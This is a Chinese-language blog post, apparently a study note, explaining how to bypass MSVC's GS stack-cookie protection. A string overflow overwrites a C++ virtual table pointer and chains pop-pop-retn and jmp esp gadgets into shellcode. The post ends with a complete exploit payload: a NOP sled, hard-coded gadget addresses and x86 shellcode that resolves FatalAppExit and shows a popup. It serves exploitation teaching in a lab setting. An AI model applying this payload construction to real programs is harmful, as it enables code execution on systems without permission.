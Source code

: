 ```yaml
---
layout: post
title: 利用虚函数绕过GS保护
subtitle: Author：a-fickle
date: 2023-09-25 00:00:00 +0800
tag: [二进制,笔记]
cover-img: /assets/img/2023-09-25-利用虚函数绕过GS保护/cover.png
---
```


**摘要**：          
本篇文章详细讲解了如何利用C++中的虚函数绕过GS保护。           
      
           
**注意**：           
* 本文所介绍的所有技术均以建设安全、健康的网络环境为目的，本着探讨网络安全技术的初衷和目的，不得用于任何恶意或非法的用途。
* 本文作者不会宽恕或鼓励滥用本文讨论的渗透测试技术进行非法活动的行为，也不会对其承担任何责任。
              
         
           
## 一、GS保护：     
**GS保护是在函数编译时对函数的栈保护的一种技术。**  
  
GS保护在函数开始时在栈帧的底部（前栈帧的ebp上方）插入cookie xor ebp的值，并在函数返回前用xor运算恢复cookie的值，比对cookie的值是否改变，从而实现对栈的保护，避免了栈溢出攻击。  
```c++
mov     eax, ___security_cookie
xor     eax, ebp
mov     [ebp+var_4], eax

...
...

mov     ecx, [ebp+var_4]
xor     ecx, ebp              ; StackCookie
call    @__security_check_cookie@4 ; __security_check_cookie(x)
```
   
栈帧情况如下图所示：  
![栈帧示意图](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-1.png){: .mx-auto.d-block :}    

\
**GS保护的漏洞**  
* GS在函数返回时才去检测栈是否溢出，我们可以在检测之前控制EIP，所以攻击C++的虚函数的方法和攻击异常处理的方法GS是不能防御的；
* 因为只对栈保护，然而堆溢出GS是不能保护的；
* GS只保护带有4字节以上缓冲区的函数，但是缓冲区<=4字节的很不常见。
    
\
**在VS中开启GS保护（本次工程配置）**  
1. 开启GS保护，如下图：  
![开启GS保护选项](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-2.png){: .mx-auto.d-block :}
2. 其他配置如下：  
![其他配置](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-3.png){: .mx-auto.d-block :}  
![其他配置](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-4.png){: .mx-auto.d-block :}


   
## 二、虚函数：  
### 1. 虚函数表：（以下简称虚表）  
虚表中存放指向虚函数的指针。  
一个虚表中可以存放多个虚函数的起始地址。
### 2. 虚函数：
函数在调用虚表后，通过虚函数表找到对应的虚函数进行调用。
### 3. 调用约定：  
* 虚函数调用约定：_thiscall   
* 参数调用顺序：右->左  
* 传递参数方式：利用ECX寄存器(this)   
* 恢复栈平衡：子函数  

调用虚函数的汇编代码如下：  
```c++
mov     edx, [ebp+this]     //将虚表地址放入edx
mov     eax, [edx]          //将虚表地址放入eax
mov     ecx, [ebp+this]     //通过ecx传递虚表地址参数
mov     edx, [eax+10h]      //将虚表中的虚函数地址放入edx
call    edx                 //调用虚函数
```
  
### 4. VS调试：  
如下图：  
![调试虚函数](/assets/img/2023-09-25-利用虚函数绕过GS保护/2-1.png){: .mx-auto.d-block :}    


## 三、绕过GS保护：
### 计算字符串长度与操作逻辑：
1. 对程序进行调试（ollydbg），进入受到GS保护的函数中（main调用的第二个函数）。  
2. 如下图是mian函数的栈帧：  
    ![main函数栈帧](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-1.png){: .mx-auto.d-block :}  
    栈帧布局如下：  
    41421146--->返回地址  
    41439898--->字符串参数起始地址  
    41439998--->虚表地址  
    0019FF70--->前栈帧ebp  
  
3. 思路：  
    **在函数检查cookie之前，字符串溢出---->
   覆盖或改变虚表地址为可控地址（地址在shellcode字符串空间中）---->
   在假的虚函数地址处放入pop pop retn指令地址字符串---->
   在shellcode开始处放入jump esp指令地址字符串---->
   跳转回shellcode字符串空间，执行shellcode**  
  
5. 三次跳转：
   * 从假的虚表地址跳转到假的虚函数（pop pop retn）
   * retn跳转到jump esp
   * jump esp跳转回shellcode字符串空间，即函数栈帧  
  
6. 计算shellcode长度：  
   栈顶到虚表地址之前（不含虚表地址，strcpy字符串结尾'\00'自动补齐，实现虚表地址末尾覆盖，结果为41439900）

  
**一些问题**：
```
1. 虚函数要在检查cookie之前调用，否则无法绕过GS保护的检查；
2. 虚表中可能有多个虚函数，因此修改虚表地址后，pop pop retn指令要放在对应调用的虚函数位置，而不一定是虚表的起始地址；
3. 如果只覆盖到虚表地址，则只能将虚表地址后两位改为\00（00会导致字符串截断）；
4. 也可以直接覆盖到虚表地址之后，破坏整个main函数栈帧，这样做可以随意修改虚表地址，而不仅仅是只改后两位；
5. 为什么跳转时写pop pop retn地址，而不是直接写栈顶地址：栈顶地址0019FE28使用不同电脑编译运行会有不同，但内存地址41439900是在编译时决定的，只要编译好了可以通用；
6. 为什么写jump esp，而不是直接jump到一个绝对地址执行shellcode：jump esp是跳转到栈顶，利用的是相对地址，通用性更强，使用绝对地址当编译环境更换时可能失效。
```

### 构造shellcode
结果代码如下：  
```c++
test.gs_overflow(
        "\x27\x11\x42\x41"
        //41421127--->jump esp
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x99\x15\x42\x41"				
        //41421599--->pop pop retn(59 5D C3)
		"\x90\x90\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
		"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
		"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
		"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
		"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
		"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
		"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
		"\x49\x0b\x31\xc0\x51\x50\xff\xd7"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		// 15*15+4+8+11 = 248
	);
```

其中，jump esp的机器码为FF E4，在IDA中查找到地址为41421127；  
pop pop retn机器码为59 5D C3，在IDA中查找到地址为41421599。  
（指令地址按“U”展开，按“C”收缩）  


### 运行结果：
**直接运行：**  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-2.png){: .mx-auto.d-block :}  
**调试结果：**  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-3.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-4.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-5.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-6.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-7.png){: .mx-auto.d-block :}  










